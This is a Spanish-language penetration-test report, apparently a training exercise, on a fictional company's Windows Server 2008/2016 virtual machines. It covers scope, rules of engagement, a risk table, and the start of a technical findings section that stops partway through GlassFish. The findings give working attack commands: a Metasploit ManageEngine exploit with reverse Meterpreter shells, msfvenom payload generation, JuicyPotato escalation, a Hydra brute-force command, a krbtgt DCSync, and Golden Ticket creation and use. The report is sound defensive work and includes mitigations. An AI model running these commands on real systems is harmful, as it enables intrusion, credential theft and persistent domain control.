# Índice

## 1. [Introducción](#1-introducción)
- [1.1 Objetivos](#11-objetivos)
- [1.2 Alcance](#12-alcance)
- [1.3 Límites](#13-límites)
- [1.4 Metodología](#14-metodología)
  - [Reconocimiento inicial](#reconocimiento-inicial)
  - [Análisis de vulnerabilidades](#análisis-de-vulnerabilidades)
  - [Explotación](#explotación)
  - [Post-explotación](#post-explotación)
  - [Rules of Engagement](#rules-of-engagement)
    - [Protección del Cliente](#protección-del-cliente)
    - [Protección del Equipo Evaluador](#protección-del-equipo-evaluador)

## 2. [Descargo de Responsabilidad](#2-descargo-de-responsabilidad)

## 3. [Información de Contacto](#3-información-de-contacto)

## 4. [Resumen Ejecutivo](#resumen-ejecutivo)
- [4.1 Antecedentes](#antecedentes)
- [4.2 Postura General](#postura-general)
- [4.3 Perfil de Riesgo](#perfil-de-riesgo)
  - [Tabla de vulnerabilidades](#hacer-una-tabla-con-las-vulnerabilidades-y-hacer-un-cómputo-del-riesgo)
- [4.4 Hallazgos Generales](#hallazgos-generales)
- [4.5 Resumen de Recomendaciones](#resumen-de-recomendaciones)

## 5. [Escaneos de Servicios](#5-escaneos-de-servicios)

## 6. [Informe Técnico](#6-technical-report)
- [ManageEngine Desktop Central - CVE-2015-8249](#vulnerabilidadmanageengine-desktop-central-9---connectionid-write-arbitrary-file-upload-cve-2015-8249)
- [Fuerza Bruta con Hydra (FTP/SSH)](#fuerza-bruta-con-hydra)
- [Golden Ticket (Persistencia en AD)](#creación-de-golden-ticket-para-obtener-persistencia)
- [Explotación de GlassFish 4.0](#explotación-de-glassfish-40)
- [WordPress 4.6.1 y Jenkins](#wordpress-461-y-jenkins-en-windows-server-2008-r2)
- [Elasticsearch - CVE-2014-3120](#explotacion-de-elasticsearch)
- [PsExec - CVE-1999-0504](#explotacion-psexec-en-windows)
- [EternalBlue - MS17-010](#explotacion-ms17-010-eternalblue)
- [MS12-020 (DoS RDP)](#explotacion-ms12-020)
- [MS15-034 (DoS HTTP)](#explotacion-ms15-034)
- [Vulnerabilidad IPv6 - CVE-2021-24086](#vulnerabilidad-ipv6)
- [Hashdump y Crackeo de Contraseñas](#post-explotación-contraseñas-de-usuarios)

## 7. [Recomendaciones Generales de Seguridad](#7-recomendaciones-generales-de-seguridad)

## 8. [Resumen de Vulnerabilidades y Nivel de Riesgo](#8-resumen-e-informe-de-vulnerabilidades)

## 9. [Resultados Técnicos Detallados](#9-resultados-técnicos)

## 10. [Anexos](#anexos)
- Evidencias de explotación
- Capturas de pantalla
- Hashes y contraseñas recuperadas
- Scripts utilizados (si procede)

---

## **1. Introducción**
Durante las pruebas se simulan las actividades que realizaría un atacante real, descubriendo las vulnerabilidades, su nivel de riesgo, y generando recomendaciones que permitan al cliente realizar la remediación de estas. En cada sección de este informe se detallan los aspectos importantes de la forma en que un atacante podría utilizar la vulnerabilidad para comprometer y obtener acceso no autorizado a información sensible. Se incluyen además directrices que al ser aplicadas mejorarán los niveles de confidencialidad, integridad y disponibilidad de los sistemas analizados.

## **1.1 Objetivos**

El objetivo de la evaluación de seguridad es detectar las vulnerabilidades de seguridad existentes en los sistemas analizados para posteriormente generar un informe con los hallazgos y recomendaciones que permitan la remediación de estas.

## **1.2 Alcance**

La evaluación de seguridad se llevó a cabo en el entorno de preproducción e incluyó el siguiente alcance:

## **1.3 Límites**

Durante la evaluación de seguridad se establecieron los siguientes límites para garantizar la continuidad operativa del entorno y evitar afectaciones no deseadas:

- **No se realizaron ataques de denegación de servicio (DoS)** sobre sistemas en producción, salvo en entornos controlados o copias virtualizadas proporcionadas por el cliente.
- **No se realizaron modificaciones persistentes** en los sistemas auditados (cambios en configuraciones, usuarios, servicios, etc.) sin consentimiento explícito.
- **No se accedió ni se alteró información sensible de usuarios reales**, tales como datos personales, financieros o de clientes finales, salvo autorización expresa.
- **No se comprometieron sistemas fuera del alcance definido** en el acuerdo inicial (limitado a las máquinas virtuales facilitadas por la organización).
- **No se emplearon técnicas de ingeniería social ni phishing** como parte del alcance de esta evaluación.
- **No se utilizaron herramientas o técnicas destructivas**, como wiping de discos, corrupción de base de datos o ransomware.

> Estos límites fueron definidos en conjunto con el cliente para asegurar que las pruebas se realizaran de forma ética, segura y controlada.

### **1.4 Metodología**

## **Metodología para Pentesting Black-Box**

El pentesting *black-box*, basado en las directrices del [Pentest-Standard](https://pentest-standard.readthedocs.io/en/latest/), evalúa la seguridad de sistemas simulando un ataque externo sin acceso previo al código fuente ni información interna. Este enfoque permite identificar vulnerabilidades desde la perspectiva de un atacante real. A continuación, se detallan las etapas del proceso.

### **Reconocimiento Inicial**

En esta fase se recopila información sobre las máquinas objetivo para identificar servicios expuestos y posibles puntos de entrada. Se utilizan herramientas como Nmap para escanear puertos abiertos, identificar servicios activos y determinar versiones de software. Además, se analizan servicios específicos como SMB, RDP o HTTP para descubrir configuraciones o recursos compartidos que puedan ser explotados. En el caso de servicios web, se emplean técnicas de fuerza bruta de directorios con herramientas como Gobuster para localizar rutas ocultas.

### **Análisis de Vulnerabilidades**

Tras identificar los servicios expuestos, se procede a evaluar vulnerabilidades potenciales. Se combinan análisis automatizados mediante herramientas como Nessus o OpenVAS, con validaciones manuales que incluyen la investigación de versiones específicas del software y sistemas operativos detectados. Esto permite determinar si existen vulnerabilidades conocidas (CVE) que puedan ser explotadas.

### **Explotación**

El objetivo de esta etapa es comprometer los sistemas aprovechando las vulnerabilidades identificadas. Se utilizan frameworks como Metasploit o scripts personalizados para ejecutar exploits. También se realizan ataques dirigidos, como fuerza bruta sobre credenciales débiles o explotación de configuraciones inseguras. Una vez comprometido el sistema, se obtiene acceso inicial mediante las técnicas más apropiadas según el contexto.

### **Post-explotación**

Con acceso inicial al sistema, se busca maximizar el impacto del compromiso:

1. Se realiza una escalada de privilegios utilizando herramientas como WinPEAS o investigando vulnerabilidades locales.
2. Se extraen datos sensibles almacenados en archivos o bases de datos y se analizan configuraciones críticas del sistema.
3. Si es necesario y está autorizado, se configuran accesos persistentes para mantener el control sobre el sistema comprometido.

## Rules of Engagement

Las siguientes reglas de compromiso establecen los límites y responsabilidades durante la fase de post-explotación del pentesting:

## **Protección del Cliente**

1. No se modificarán servicios críticos sin autorización previa.
2. Todas las modificaciones realizadas serán documentadas y revertidas al finalizar.
3. Los datos sensibles descubiertos solo se utilizarán si está explícitamente permitido.
4. La información confidencial será enmascarada en el informe final.
5. Todos los datos recopilados serán encriptados durante el proceso y destruidos tras la aceptación del informe.

## **Protección del Equipo Evaluador**

1. El contrato y/o declaración de trabajo firmado por ambas partes debe establecer explícitamente que las acciones realizadas en los sistemas evaluados se ejecutan en nombre y representación del cliente.
2. Se obtendrán las políticas de seguridad relevantes antes de iniciar.
3. Se verificarán las regulaciones aplicables a los datos del cliente.
4. Se acordará con el cliente un protocolo de actuación específico en caso de detectar que un tercero ha comprometido los sistemas del equipo auditor.

## **2. Descargo de responsabilidad**

Este informe ha sido elaborado con base en la evaluación de seguridad realizada sobre los sistemas especificados por la organización. Los hallazgos, conclusiones y recomendaciones presentadas reflejan las condiciones observadas en el momento de la evaluación. El equipo evaluador no se hace responsable por cualquier uso indebido, interpretación errónea o acción que se derive de la información contenida en este informe. La organización auditada es responsable de evaluar y tomar las medidas que considere necesarias para mitigar los riesgos identificados.

## **3. Información de contacto**

Secure Shield Pentesting, S.L.
Calle Innovación, 42, 3ª planta
28023 Madrid, España

Email: atencionalcliente@secureshield.es
Tel: +34 912 345 678
Emergencias: +34 900 123 456
Web: [www.secureshield.es](http://www.secureshield.es/)
CIF: B-87654321

# **4. Resumen Ejecutivo**

## **4.1 Antecedentes**

"La Descuidada S.A." ha solicitado nuestros servicios de expertos en seguridad para realizar una evaluación exhaustiva de su infraestructura informática. El objetivo principal es fortalecer la postura de seguridad de la organización mediante la identificación y mitigación de vulnerabilidades potenciales. Para ello se nos han entregado 2 copias de las máquinas virtuales que se solicita auditar en la empresa.

## **4.2 Postura General**

Tras una evaluación exhaustiva, se ha determinado que la postura de seguridad actual de "La Descuidada S.A." presenta vulnerabilidades significativas que requieren atención inmediata. Se identificaron múltiples puntos de entrada potenciales que podrían ser explotados por actores maliciosos, poniendo en riesgo la integridad de los sistemas y la confidencialidad de la información crítica de la empresa.

## **4.3 Perfil de Riesgo**

Tras el análisis técnico realizado, se determinó que el perfil de riesgo general del entorno es ALTO. La existencia de múltiples vulnerabilidades críticas, servicios sin autenticación, contraseñas débiles, y sistemas desactualizados incrementa de forma significativa las probabilidades de un compromiso exitoso por parte de un atacante.

## Tabla con las vulnerabilidades y hacer un cómputo del riesgo
La siguiente tabla resume las vulnerabilidades identificadas durante la evaluación, indicando su referencia (CVE o descripción), tipo de ataque, severidad y el estado de explotación. Esta información permite establecer el perfil de riesgo general del entorno evaluado.

| # | Vulnerabilidad | CVE / Referencia | Tipo | CVSS v3 | Riesgo |
|---|------------------------------------------|-----------------------------------------|----------------------------|----------|------------- |
| 1 | ManageEngine Arbitrary File Upload | CVE-2015-8249 | RCE | 9.8 | Crítico 🟥 |
| 2 | Jenkins Script Console sin autenticación | CVE-2018-1000861 | RCE | 9.8 | Crítico 🟥 |
| 3 | WordPress Path Traversal & XSS | CVE-2016-7168 / CVE-2016-7169 | LFI / XSS | 7.5 | Alto 🟧 |
| 4 | EternalBlue (SMBv1) | CVE-2017-0143 a CVE-2017-0148 | RCE | 9.3 | Crítico 🟥 |
| 5 | Elasticsearch API RCE | CVE-2014-3120 | RCE | 8.1 | Crítico 🟥 |
| 6 | Fuerza bruta FTP / SSH | - | Credenciales débiles | Alta | Alto 🟧 |
| 7 | GlassFish CSRF + Directory Traversal | CVE-2012-0550 / CVE-2017-1000028 | RCE / LFI | 9.8 | Crítico 🟥 |
| 8 | PsExec vía SMB con credenciales | CVE-1999-0504 | RCE (post-auth) | 9.0 | Crítico 🟥 |
| 9 | Golden Ticket (persistencia en AD) | - | Persistencia / EoP | Crítico | Crítico 🟥 |
| 10 | Dump de hashes + cracking | - | Post-explotación / cred | Alta | Alto 🟧 |
| 11 | RDP DoS | CVE-2012-0002 | Denegación de servicio | 9.0 | Medio 🟨 |
| 12 | IIS Range Header DoS | CVE-2015-1635 | Denegación de servicio | 7.8 | Medio 🟨 |
| 13 | IPv6 Fragmentation DoS | CVE-2021-24086 | Denegación de servicio | 7.5 | Medio 🟨 |

---

### Cómputo de Riesgo

| Nivel de Riesgo | Total de Vulnerabilidades |
|-----------------|---------------------------|
| 🟥 Crítico | 7 |
| 🟧 Alto | 3 |
| 🟨 Medio | 3 |
| 🟩 Bajo | 0 |

> **Resultado Global:** El entorno presenta un perfil de riesgo **CRÍTICO**, con múltiples vectores de ataque que permiten ejecución remota de código, persistencia en dominio y explotación de servicios clave, lo que compromete gravemente la **confidencialidad, integridad y disponibilidad** de los sistemas.

## **4.4 Hallazgos Generales**

Se identificaron múltiples vulnerabilidades críticas y de gravedad media en los sistemas evaluados. Las más preocupantes incluyen:

* Contraseñas predeterminadas en sistemas críticos.
* Falta de actualizaciones de seguridad en servidores.
* Configuraciones incorrectas en firewalls y otros dispositivos de seguridad.

## **4.5 Resumen de Recomendaciones**

1. Establecer un programa regular de actualizaciones de seguridad.
2. Sustituir la máquina win2008 por otra con un sistema operativo con soporte de actualizaciones.
3. Revisar y corregir las configuraciones de todos los dispositivos de red.
4. Proporcionar formación en seguridad al personal.

## **5. Escaneos de servicios**
**Escaneo de vulnerabilidades**

**El escaneo de Nmap muestra una máquina Windows Server con múltiples servicios expuestos y vulnerabilidades críticas. Aquí está el listado detallado de las vulnerabilidades más significativas:**

## **Servicios Web y Aplicaciones**

| Puerto | Servicio | Versión/Software | Comentario / CVEs relevantes |
|---------|--------------------------|-----------------------------------------|---------------------------------------------------------------------|
| 21 | FTP | Microsoft ftpd | Acceso anónimo, enumeración de archivos |
| 22 | SSH | OpenSSH 7.1 | CVE-2023-38408, CVE-2016-1908, CVE-2016-0778 |
| 80 | HTTP | Microsoft IIS 7.5 | CVE-2010-3972, CVE-2010-2730 |
| 135 | MSRPC | Microsoft Windows RPC | Exposición a ataques DCOM o SMB |
| 139 | NetBIOS-SSN | Microsoft NetBIOS | Enumeración de usuarios, recursos compartidos |
| 445 | SMB | Windows Server 2008 R2 | EternalBlue - CVE-2017-0143 a CVE-2017-0148 |
| 1617 | Java RMI | Java RMI | RCE vía carga de clases remotas (sin CVE específico) |
| 3306 | MySQL | MySQL 5.5.20-log | CVE-2012-2750, CVE-2012-2122 |
| 3389 | RDP | ssl/ms-wbt-server? | Posible BlueKeep - CVE-2019-0708 |
| 3700 | CORBA | GIOP / Naming Service | Potencial ejecución de código remoto |
| 4848 | HTTPS | Oracle GlassFish 4.0 | CVE-2012-0550, CVE-2017-1000028 |
| 5985 | HTTP | Microsoft HTTPAPI 2.0 | Exposición de servicios administrativos remotos |
| 7676 | Java Message Service | JMS 301 | RCE si no autenticado (vía broker inseguro) |
| 8009 | AJP13 | Apache JServ Protocol | Vulnerabilidades AJP file inclusion |
| 8020 | HTTP | Apache httpd | Verificar versión y módulos expuestos |
| 8027 | Desconocido | papachi-p2p-srv? | Servicio desconocido, posible P2P no documentado |
| 8080 | HTTP | Sun GlassFish 4.0 | Despliegue de .war no autenticado |
| 8181 | SSL | Intermapper? | Certificado y configuración SSL posiblemente débiles |
| 8282 | HTTP | Apache Tomcat/Coyote JSP 1.1 | CVE-2007-6750 (ataque Slowloris) |
| 8383 | HTTP | Apache httpd | Versiones antiguas vulnerables a DoS o RCE |
| 8484 | HTTP | Jetty / Jenkins Winstone 2.8 | CVE-2018-1000861 (RCE via Script Console) |
| 8585 | HTTP | Apache 2.2.21 + WordPress 4.6.1 | CVE-2016-7168, CVE-2016-7169 |
| 8686 | Java RMI | Java RMI | Servicio duplicado, verificar autenticación |
| 9200 | WAP-WSP? | Desconocido | Sin información, requiere análisis manual |
| 9300 | VRACE? | Desconocido | Servicio poco común, revisar tráfico |
| 47001 | HTTP | Microsoft HTTPAPI 2.0 | Administración remota, verificar autenticación y configuración |
| 49152 | MSRPC | Microsoft RPC | Parte de servicios dinámicos del sistema |
| 49153 | MSRPC | Microsoft RPC | Parte de servicios dinámicos del sistema |
| 49154 | MSRPC | Microsoft RPC | Parte de servicios dinámicos del sistema |
| 49175 | Java RMI | Java RMI | RCE potencial si sin protección |
| 49176 | TCPWRAPPED | TCP envuelto | Puede indicar filtrado o protección por firewall |
| 49179 | MSRPC | Microsoft RPC | Parte de servicios dinámicos del sistema |
| 49211 | SSH | Apache Mina SSHD 0.8.0 | Posible autenticación débil |
| 49212 | Jenkins Listener | Jenkins TcpSlaveAgentListener | Comunicación sin autenticación |
| 49215 | MSRPC | Microsoft RPC | Parte de servicios dinámicos del sistema |
| 49262 | MSRPC | Microsoft RPC | Parte de servicios dinámicos del sistema |

**La máquina presenta una superficie de ataque extremadamente amplia con servicios desactualizados y configuraciones inseguras que podrían permitir acceso completo al sistema.**

## **6. Technical Report**

## **Vulnerabilidad: ManageEngine Desktop Central 9 - ConnectionId Write Arbitrary File Upload (CVE-2015-8249)**

### Identificación:
La vulnerabilidad fue detectada tras realizar un análisis de versión del software ManageEngine Desktop Central 9 expuesto en el puerto 8022 del host objetivo. Se observó que dicha versión era vulnerable según registros públicos en Exploit-DB, y no contaba con los parches de seguridad correspondientes.

Mediante el uso de la herramienta searchsploit, se verificó la existencia del exploit público asociado:

```bash
searchsploit ManageEngine Desktop Central 9
```
Este comando reveló el exploit:
ManageEngine Desktop Central 9 - ConnectionId Write Arbitrary File Upload (CVE-2015-8249)

### Descripción:
Tipo: Ejecución remota de código (RCE)

CVE: CVE-2015-8249

Gravedad: 9.8 CVSS v3

Esta vulnerabilidad permite a un atacante remoto cargar archivos arbitrarios en el sistema afectado mediante el uso de un identificador de conexión inseguro. Esto puede derivar en la ejecución remota de código con los privilegios del servicio afectado.

### Explotación:
Se utilizó el módulo de Metasploit exploit/windows/http/manageengine_connectionid_write para explotar la vulnerabilidad y obtener una sesión Meterpreter en el equipo remoto.


Configuración del módulo:

```bash
use exploit/windows/http/manageengine_connectionid_write
set RHOSTS 10.0.3.7
set RPORT 8022
set LHOST 10.0.3.6
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
run
```


Una vez ejecutado el exploit, se obtuvo acceso remoto al sistema con privilegios limitados:

**Escalada de privilegios: Juicy Potato**

**Descripción:** Tras la explotación inicial, se procedió con la escalada de privilegios aprovechando la vulnerabilidad en el token de servicio COM, utilizando la herramienta Juicy Potato, la cual permite escalar a NT AUTHORITY\SYSTEM en sistemas Windows.

**Fase 1:** Subida de archivos
Desde la sesión meterpreter, se cargaron los archivos necesarios:

```bash
upload JuicyPotato.exe
upload shell.exe
shell.exe fue generado previamente con msfvenom:
```
Desde nuestra terminal de kali generamos un archivo .exe, para subirlo a la maquina de windows 2008.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.6 LPORT=5555 -f exe -o shell.exe
```
**Fase 2:** Configuración del listener
Se inició un listener en Metasploit para recibir la nueva conexión elevada:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.3.6
set LPORT 5555
run -j
```
**Fase 3:** Ejecución de Juicy Potato
Desde la shell del sistema comprometido se ejecutó JuicyPotato:

```bash
cd C:\ManageEngine\DesktopCentral_Server\bin
JuicyPotato.exe -l 1337 -p shell.exe -t *
```
Una vez ejecutado, se obtuvo una nueva sesión Meterpreter como SYSTEM, permitiendo control total del sistema.

### Sistemas afectados:
+ **10.0.3.7** - Windows Server 2008 R2 SP1 (con ManageEngine Desktop Central 9)

### Mitigación:
+ Actualizar a versiones más recientes de ManageEngine Endpoint Central.

+ Aplicar el parche de seguridad correspondiente a CVE-2015-8249.

+ Restringir el acceso al puerto 8022 mediante firewall o segmentación de red.

+ Revisar permisos y configuraciones del servicio Windows para evitar abuso de privilegios.

## **Fuerza bruta con Hydra**
### Identificación:

Se identificó un servicio FTP y SSH en el host 10.0.3.7 utilizando un ataque de fuerza bruta con **Hydra**, se logró obtener la contraseña del usuario **Administrator**. Posteriormente, se comprobó que las mismas credenciales eran válidas para acceder al servicio SSH, lo que permitió obtener acceso remoto al sistema.

### Descripción:

**Tipo:** Credenciales débiles en servicios expuestos (CWE-521: Weak Password Requirements)

**Gravedad:** Alta

El servicio FTP configurado en el host 10.0.3.7 permite autenticación con contraseñas débiles y no implementa mecanismos de bloqueo tras múltiples intentos fallidos, lo que facilita ataques de fuerza bruta. Además, las mismas credenciales fueron reutilizadas en el servicio SSH, exponiendo aún más el sistema.

### Explotación:

1. **Ataque de fuerza bruta al servicio FTP:**
Se utilizó Hydra para realizar un ataque de fuerza bruta al servicio FTP con el siguiente comando:

```
hydra -l Administrator -e n -P /usr/share/wordlists/metasploit/password.lst 10.0.3.7 ftp
```


2. **Acceso al servicio FTP:**
Con las credenciales obtenidas, se accedió al servicio FTP y se listaron los archivos disponibles:


```
ftp 10.0.3.7
```



3. **Acceso al servicio SSH con las mismas credenciales:**
Se utilizó el usuario y contraseña obtenidos para iniciar sesión en el servicio SSH:



4. **Enumeración de privilegios:**
Una vez dentro del sistema, se ejecutó el comando `whoami /all` para identificar los privilegios asociados a la cuenta:
```
Privilege Name Description State
SeDebugPrivilege Debug programs Enabled
SeImpersonatePrivilege Impersonate a client Enabled
...
```



5. **Acceso adicional con otro usuario identificado:**
También se probó con otro usuario encontrado en ataques previos, confirmando que las mismas credenciales eran válidas:




### Sistemas afectados:

- Servicio **FTP** en el host 10.0.3.7 (Microsoft FTP Service)
- Servicio **SSH** en el host 10.0.3.7

### Mitigación:

1. **Fortalecer contraseñas o sustituir por certificados:** Implementar políticas de contraseñas robustas que exijan mayor complejidad o preferentemente usar certificados/archivos clave, lo que añadiría una encriptación mucho más robusta.
2. **Bloqueo por intentos fallidos:** Configurar mecanismos de bloqueo temporal tras varios intentos fallidos para prevenir ataques de fuerza bruta.
3. **Segregar servicios:** Evitar la reutilización de credenciales entre diferentes servicios como FTP y SSH.
4. **Auditoría de accesos:** Monitorizar los registros de acceso a servicios críticos como FTP y SSH para identificar actividades sospechosas.
5. **Deshabilitar FTP:** FTP es un protocolo inseguro y debe de ser sustituido por un protocolo que soporte encriptación.
6. **Deshabilitar servicios innecesarios:** Si no es necesario, deshabilitar el servicio FTP o restringir su acceso mediante firewalls o listas blancas IP.

## Creación de golden ticket para obtener persistencia

### Identificación:

Esta vulnerabilidad fue explotada tras obtener acceso privilegiado al controlador de dominio y extraer el hash de la cuenta krbtgt, lo que permitió generar un Golden Ticket para mantener acceso persistencia al dominio.

### Descripción:

**Tipo:** Elevación de privilegios y persistencia

**CWE:** CWE-290: Authentication Bypass by Spoofing

**Gravedad:** Crítica

Un ataque de Golden Ticket explota el protocolo de autenticación Kerberos en entornos de Active Directory. Al comprometer el hash de la cuenta krbtgt, un atacante puede forjar Ticket Granting Tickets (TGTs) válidos para cualquier usuario del dominio, incluyendo cuentas privilegiadas. Esto otorga acceso ilimitado y persistente a todos los recursos del dominio.

### Explotación:

Se utilizaron los siguientes comandos para generar y utilizar el Golden Ticket:

1. Obtención del SID del dominio y hash de krbtgt:
```
meterpreter > powershell_execute "Get-ADDomain | Select-Object DomainSID, FQDN"
meterpreter > dcsync_ntlm krbtgt
```



Se ha tenido que renombrar el golden ticket a golden.ccache en el directorio de trabajo

2. Creación del Golden Ticket:
```
golden_ticket_create -d DescuidadaCorp.local -k c4673a9986611f8aac8be4b95d9b40b4 -s S-1-5-21-3493750644-1021020591-812404171 -u Administrador -t C:\Windows\Temp\golden.kirbi
```





3. Uso del Golden Ticket para acceder a recursos del dominio:

Ejemplo con samba en el que se obtiene acceso a todos los directorios de 10.0.3.4
```
export KRB5CCNAME=$(pwd)/golden.ccache
python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass -dc-ip 10.0.3.4 DescuidadaCorp.local/Administrador@DC-COMPANY
```
Ejemplo con psex en el que se tiene acceso por terminal al equipo:




### Sistemas afectados:
- Todos los sistemas y recursos del dominio DescuidadaCorp.local
- 10.0.3.4 win2016
- 10.0.3.7 win2008

### Mitigación:

1. Cambiar regularmente la contraseña de la cuenta krbtgt.
2. Implementar autenticación multifactor para cuentas privilegiadas.
3. Monitorizar activamente eventos de autenticación Kerberos anómalos.
4. Implementar el principio de mínimo privilegio en toda la infraestructura.

## Explotación de GlassFish 4.0
### Identificación:

La vulnerabilidad fue identificada durante el análisis de seguridad en la instancia de GlassFish 4.0 en Windows Server. Se detectó la presencia de credenciales débiles y configuraciones inseguras en la consola de administración, lo que permitió la explotación de vulnerabilidades conocidas.

### Descripción:
**Tipo:** Ejecución remota de código (RCE) y acceso no autorizado.

**CVE:** [CVE-2012-0550](https://www.cvedetails.com/cve/CVE-2012-0550/), [CVE-2017-1000028](https://www.cvedetails.com/cve/CVE-2017-1000028/)

**Gravedad:** 9.8 CVSS (Crítico)

CVE-2012-0550 permite la explotación de una vulnerabilidad de Cross-Site Request Forgery (CSRF) en la API REST de GlassFish 3.1.1, facilitando la carga de archivos arbitrarios, incluidos archivos `.war`, lo que lleva a la ejecución de código remoto.

